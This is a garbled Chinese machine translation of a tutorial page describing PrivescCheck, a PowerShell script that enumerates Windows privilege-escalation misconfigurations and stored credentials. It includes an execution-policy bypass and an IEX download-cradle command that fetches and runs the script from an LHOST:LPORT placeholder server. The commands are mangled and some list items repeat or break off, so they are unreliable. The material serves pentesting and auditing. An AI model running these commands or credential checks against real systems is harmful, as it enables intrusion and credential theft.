

# prives check:Windows 权限提升枚举脚本

> 原文：<https://kalilinuxtutorials.com/privesccheck/>

**prives check**脚本旨在**列举常见的 Windows 安全错误配置**，这些错误配置可用于权限提升，**收集可能对**利用**和/或**后利用**有用的各种信息**。

我建立在 [@harmj0y](https://twitter.com/harmj0y) 和[@ matti festigation](https://twitter.com/mattifestation)在[加电](https://github.com/HarmJ0y/PowerUp)中所做的惊人工作的基础上。我增加了更多的检查，并试图减少误报的数量。

它仍然是一项正在进行的工作，因为我还想实现一些检查，但它已经相当完整了。如果你有任何建议(改进、特性)，欢迎随时在 Twitter 上联系我 [@itm4n](https://twitter.com/itm4n) 。

**用途**

*   在 PowerShell 提示符下使用脚本。

PS C:\ Temp \ > Set-execution policy Bypass-Scope Process-Force
PS C:\ Temp \>。。\ Invoke-prives check . PS1；调用权限检查

*   显示输出，同时写入日志文件。

PS C:\Temp\ >。。\ Invoke-prives check . PS1；invoke-prives check | Tee-Object " C:\ Temp \ result . txt "

*   在 CMD 提示符下使用该脚本。

**C:\Temp\ > powershell -ep 旁路-c”。。\ Invoke-prives check . PS1；Invoke-PrivescCheck"**

*   从 web 服务器导入脚本。

**C:\ Temp \>powershell“IEX(新对象网。WebClient)。download string(' http://LHOST:LPORT/Invoke-privesccheck . PS1 ')；Invoke-PrivescCheck"**

*   **又一个 Windows 权限提升工具，为什么？**

我非常喜欢 [PowerUp](https://github.com/HarmJ0y/PowerUp) ，因为它可以非常快速地枚举常见漏洞，并且不使用任何第三方工具。问题是现在已经好几年没更新了。另一个问题是，这些年来我发现了很多次，它有时会返回令人困惑的误报。

GitHub 上还有其他工具，但是它们不太完整或者有太多的依赖关系。例如，它们依赖 WMI 调用或其他命令输出。

因此，我决定根据以下限制来编写自己的脚本:

*   **不得使用 SysInternals 的第三方工具**，如`**accesschk.exe**`。
*   **不得使用内置的 Windows 命令**，如`**whoami.exe**`或`**netstat.exe**`。这样做的原因是，我希望我的脚本能够在实施 AppLocker(或任何其他应用程序白名单解决方案)的环境中运行。
*   **它不能使用内置的 Windows 工具**，例如`**sc.exe**`或`**tasklist.exe**`，因为如果你试图在 **Windows Server 2016/2019** 上使用它们，你经常会得到一个**访问被拒绝**的错误。
*   **它不能使用 WMI** ，因为它的使用可能仅限于管理员用户。
*   最后但同样重要的是，它必须兼容 **PowerShell 版本 2** 。

**亦读-[XCTR 黑客工具 2020](https://kalilinuxtutorials.com/xctr-hacking/)**

**解决所有约束…**

*   **第三方工具**

我没有可取之处，我重用了一些 [@harmj0y](https://twitter.com/harmj0y) 和[@ matti festigation](https://twitter.com/mattifestation)做的代码。事实上，PowerUp 有一个非常强大的功能，叫做`Get-ModifiablePath`，它检查给定文件路径的 ACL，以查看当前用户是否对该文件或文件夹具有写权限。我稍微修改了一下这个函数，以避免一些误报。在此之前，像`/svc`这样的服务命令行参数可以被识别为易受攻击的路径，因为它被解释为`C:\svc`。我的另一个贡献是我做了一个*注册表兼容的*版本的这个函数(`Get-ModifiableRegistryPath`)。

*   **Windows 内置的 Windows 命令/工具**

在可能的情况下，我很自然地将它们替换成了内置的 PowerShell 命令，比如`Get-Process`。在其他情况下，比如`netstat.exe`，您不会获得像使用基本 PowerShell 命令那样多的信息。例如，使用 PowerShell，可以很容易地列出 TCP/UDP 侦听器，但是没有简单的方法来获取相关的进程 ID。在这种情况下，我必须调用 Windows API 函数。

*   **WMI**

你可以通过 WMI 获得大量信息，太棒了！但是，如果您面对的是一台经过适当加固的机器，那么对该接口的访问将会受到限制。所以，我不得不寻找变通办法。又来了**注册表**！常见的检查是基于一些注册表项，但它有更多的提供。最好的例子是服务业。只需浏览注册表，您就可以获得关于每个服务的所有信息(显然除了它们的当前状态)。与依赖于访问**服务控制管理器**的`sc.exe`或`Get-Service`相比，这是一个巨大的优势。

*   **PowerShellv2 支持**

这并不容易，因为新版本的 PowerShell 有非常方便的功能或选项。例如，`Get-LocalGroup`函数不存在，并且`Get-ChildItem`在 PowerShellv2 中没有`-Depth`选项。所以，你必须想办法解决这些小而耗时的问题。

**特性**

*   **当前用户**

**Invoke-user check–获取当前用户的用户名和 SID
Invoke-UserGroupsCheck–枚举当前用户所属的组，默认组和低特权组除外
Invoke-UserPrivilegesCheck–枚举当前用户令牌的高潜在特权**

*   **服务**

-Invoke-InstalledServicesCheck–枚举非默认服务
-Invoke-servicespermissioncheck–枚举当前用户可以通过服务控制管理器修改的服务
-Invoke-servicespermissionregistrycheck–枚举当前用户可以在注册表中修改的服务
-Invoke-ServicesImagePermissionsCheck–枚举所有具有可修改二进制文件(或参数)的服务
-Invoke-ServicesUnquotedPathCheck–枚举具有可以利用的未引用路径的服务

*   **Dll 劫持**

**Invoke-dllhijjackingcheck–检查任何系统路径文件夹是否可修改**

*   **程序**

**-Invoke-InstalledProgramsCheck-枚举默认情况下没有安装的应用程序
-Invoke-ModifiableProgramsCheck-枚举拥有可修改的 DLL 文件 EXE 的应用程序
-Invoke-RunningProcessCheck-枚举正在运行的进程**

*   **凭证**

-Invoke-SamBackupFilesCheck–检查 SAM/系统备份文件的常用位置
-Invoke-Unattend files check–枚举无人参与文件并提取凭据
-Invoke-Winlogon check–检查存储在 Winlogon 注册表项中的凭据
-Invoke-CredentialFilesCheck–列出存储在当前用户 AppData 文件夹中的凭据文件
-Invoke-VaultCredCheck–枚举保存在凭据管理器中的凭据
-Invoke-VaultListCheck–枚举保存在凭据管理器中的 web 凭据
-Invoke-Invoke-Invoke-Invoke

*   **注册表**

-Invoke-UacCheck-检查是否启用了 UAC(用户访问控制)-Invoke-LAPS check-检查是否启用了 LAPS(本地管理员密码解决方案)
-Invoke-PowershellTranscriptionCheck-检查是否配置/启用了 PowerShell 转录
-Invoke-registrayalysinstallelevatedcheck-检查注册表中是否设置了 AlwaysInstallElevated 项
-Invoke-lsaprotationscheck-检查 LSASS 是否作为受保护的进程运行(+附加检查)

*   网络

-Invoke-TcpEndpointsCheck–枚举本地计算机上的异常 TCP 端点(IPv4 和 IPv6)
-Invoke-UdpEndpointsCheck–枚举本地计算机上的异常 UDP 端点(IPv4 和 IPv6)

*   **杂项**

-Invoke-windows updatecheck-检查机器的上次更新时间-Invoke-SystemInfoCheck-获取操作系统的名称和完整版本字符串
-Invoke-LocalAdminGroupCheck-枚举默认本地管理组的成员
-Invoke-MachineRoleCheck-获取机器的角色(工作站、服务器、域控制器)
-Invoke-SystemStartupHistoryCheck-获取系统启动事件列表-Invoke-SystemStartupCheck-获取上次系统启动时间
-Invoke-SystemDrivesCheck-获取

[**Download**](https://github.com/itm4n/PrivescCheck)